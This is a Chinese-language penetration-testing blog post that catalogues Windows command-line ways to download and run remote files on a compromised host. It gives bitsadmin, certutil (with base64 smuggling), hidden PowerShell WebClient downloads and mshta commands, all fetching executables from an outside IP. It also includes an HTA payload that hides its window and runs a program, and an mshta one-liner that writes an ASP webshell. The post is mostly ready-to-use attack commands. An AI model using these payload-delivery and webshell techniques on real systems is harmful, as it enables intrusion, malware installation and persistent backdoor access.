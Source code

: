 +++
date = "2018-02-06T15:12:32+08:00"
description = "在windows的终端下下载文件，在windows的终端下执行远程文件"
draft = false
tags = ["intranet"]
title = "Windows终端下载文件和执行远程文件"
topics = ["Pentest"]

+++

环境：Windows Server 2008 R2 Enterprise

### 0x00 bitsadmin下载文件
```bash
bitsadmin /rawreturn /transfer getfile http://114.115.123.123/a.exe C:\Windows\Temp\a.exe
bitsadmin /rawreturn /transfer getpayload http://114.115.123.123/a.zip C:\Windows\Temp\a.zip
bitsadmin /transfer myDownLoadJob /download /priority normal http://114.115.123.123/a.exe C:\Windows\Temp\a.exe
```

### 0x01 certutil下载文件
保存在当前目录
```bash
certutil -urlcache -split -f http://114.115.123.123/a.exe a.exe
```

有时会下载二进制文件的base64编码后的字符串，然后再解码
```
本地：certutil -encode cc.exe base64.txt
目标：certutil -urlcache -split -f http://114.115.123.123/base64.txt
目标：certutil -decode base64.txt cc.exe
```

文件会以二进制形式缓存到目录：C:\Users\Administrator\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content
```bash
certutil -urlcache -f http://114.115.123.123/a.exe
```

### 0x02 powershell下载文件
```bash
powershell (new-object System.Net.WebClient).DownloadFile("http://114.115.123.123/a.exe","C:\Windows\Temp\a.exe")

#-w hidden 下载后终端自动退出
powershell -w hidden -c (new-object System.Net.WebClient).DownloadFile("http://114.115.123.123/a.exe","C:\Windows\Temp\a.exe")
```

### 0x03 mshta下载文件与执行远程文件
使用mshta命令的文件都会被缓存到：C:\Users\Administrator\AppData\Local\Microsoft\Windows\Temporary Internet Files

* 执行远程hta文件

```bash
mshta http://114.115.123.123/payload.hta
mshta http://114.115.123.123/a.exe
#payload.hta和a.exe都会被缓存在IE的缓存目录
```
payload.hta
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <script language="VBScript">
        Window.ReSizeTo 0, 0
        Window.moveTo -2000,-2000
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
        self.close
    </script>
</head>
<body>

demo

</body>
</html>
```

* 写文件的方法

```
mshta vbscript:createobject("scripting.filesystemobject").createtextfile("a.asp",2,ture).writeline("<%execute(request('l'))%>")(window.close)
```

<br />
#### Reference(侵删)：
* [https://xianzhi.aliyun.com/forum/topic/1654](https://xianzhi.aliyun.com/forum/topic/1654)
* [https://evi1cg.me/archives/Tricks.html](https://evi1cg.me/archives/Tricks.html)
* [https://3gstudent.github.io/3gstudent.github.io/渗透测试中的certutil.exe/](https://3gstudent.github.io/3gstudent.github.io/渗透测试中的certutil.exe/)
